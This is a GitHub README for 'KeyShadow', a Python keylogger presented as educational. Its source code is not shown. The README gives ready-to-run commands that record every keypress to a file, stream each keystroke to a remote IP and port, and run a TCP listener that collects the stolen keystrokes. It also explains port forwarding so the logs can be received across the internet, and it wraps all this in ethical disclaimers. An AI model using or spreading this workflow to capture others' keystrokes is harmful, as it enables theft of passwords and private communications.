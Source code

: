 # 🎩 KeyShadow

> **An Educational, Open-Source, Cross-Platform Keylogger**  

```
 _  __           _____ _           _               
| |/ /___ _   _ /  ___| |__   __ _| |_ ___  _ __   
| ' // _ \ | | |\___ \| '_ \ / _` | __/ _ \| '__|  
| . \  __/ |_| | ___) | | | | (_| | || (_) | |     
|_|\_\___|\__, | |____/|_| |_|\__,_|\__\___/|_|     
         |___/                                  
```

---

##  ![Warning](https://img.icons8.com/color/48/000000/error--v1.png) **IMPORTANT ETHICAL NOTICE**

> **KeyShadow is for EDUCATIONAL and ETHICAL use only.**
>
> - 🚫 **Never use on devices you don't own or without clear, written permission!**
> - 🛑 **Unauthorized use is illegal and unethical.**
> - 👨‍💻 Authors and contributors assume NO responsibility for misuse.

---

## 🌈 Features

- 📝 **Local logging** to file (`local` mode)
- 🔗 **Network sending** to another device (`send` mode)
- 📥 **Network receiving** logs (`receive` mode)
- ⚙️ **Customizable:** IPs, ports, log file path via CLI
- 💻 **Works on:**  
  - **Kali Linux, Ubuntu, Other Linux**  
  - **Windows 10/11**  
  - **macOS**  
  - **Termux (limited)**
- 🐍 **Python 3.7+ required**
- 🔓 **No API keys or cloud dependencies**
- 📄 **Simple, plain-text log files**

---

## 🚀 Installation

### 1. Install Python 3.7+  
- [Download Python for Windows](https://www.python.org/downloads/windows/)  
- [Download Python for macOS](https://www.python.org/downloads/macos/)
- On Linux:  
  ```bash
  sudo apt update && sudo apt install python3 python3-pip
  ```

### 2. Install dependencies:
```bash
pip install pynput
```

### 3. Download `keyshadow.py` to your system.

---

## 🖥️ Supported Platforms

| Platform         | Supported? | Notes                                              |
|------------------|------------|----------------------------------------------------|
| 🐧 Kali Linux    | ✅         | Full support                                       |
| 🐧 Ubuntu        | ✅         | Full support                                       |
| 🐧 Other Linux   | ✅         | Full support                                       |
| 🪟 Windows 10/11 | ✅         | Full support (run in CMD or PowerShell)            |
| 🍏 macOS         | ✅         | Full support (Terminal; may need permissions)      |
| 📱 Termux        | ⚠️        | Only within Termux shell (no global key capture)   |

> **Tip:** On Windows/macOS, you may need to grant accessibility/input monitoring permissions for full keylogging.

---

## 🆘 Help Menu

```bash
python3 keyshadow.py --help
```

---

## 👾 Usage: Modes & Examples

### 1️⃣ Local Logging (Log to File)
```bash
python3 keyshadow.py --mode local --logfile mylogs.txt
```
Logs all keypresses to `mylogs.txt`.  
Press `ESC` to stop logging.

---

### 2️⃣ Send Mode (Send Logs to Remote Device)
```bash
python3 keyshadow.py --mode send --remote-ip <RECEIVER_IP> --remote-port 8080
```
Sends every keystroke to a receiver at `<RECEIVER_IP>:8080` **AND** saves locally.

---

### 3️⃣ Receive Mode (Listen for Logs)
```bash
python3 keyshadow.py --mode receive --listen-port 8080 --logfile received.txt
```
Listens for logs on port 8080 and writes them to `received.txt`.

---

## 🌐 Example: Logging Across the Network

**PC 1 (Receiver):**
```bash
python3 keyshadow.py --mode receive --listen-port 8080 --logfile logs_from_laptop.txt
```

**PC 2 (Sender):**
```bash
python3 keyshadow.py --mode send --remote-ip <PC1_IP> --remote-port 8080
```

- Both devices must be on the same local network.
- Use your PC's local IP (e.g., `192.168.1.5`) for `<PC1_IP>`.

---

## 🌍 Remote Logging (Outside Local Network)

- **Port Forwarding:**  
  - Forward port 8080 on your router to the receiver's local IP.
- **Firewall:**  
  - Allow inbound connections on port 8080.
- **Security:**  
  - Exposes your device to the internet—**use with extreme caution** and only for testing.
- **Never** use on devices/networks without explicit, legal permission.

---

## 💡 How It Works

- **local**: Records every keypress to a local file.
- **send**: Sends each keypress to a given IP:port, as well as logging locally.
- **receive**: Starts a simple TCP server to receive log entries and write them to a file.

---

## ⚠️ Limitations

- **No encryption** of logs or network data (for educational simplicity)
- **No cloud or email integration**
- **Key capture limited by OS permissions**
- **Not intended for stealth or malicious use**
- **On Windows/macOS:** May require running as Administrator or giving input monitoring permissions.

---

## 👨‍💻 Authors

- **Lokesh Kumar**
- ## **[Youtube](https://www.youtube.com/@termux2)**



---

## 📝 License

[MIT License](LICENSE)

---

## 🤝 Contributing

PRs and suggestions welcome for further educational features.

---

## ❗ Disclaimer

This software is provided “as is” for ethical and educational use.  
**You are responsible for your actions.**
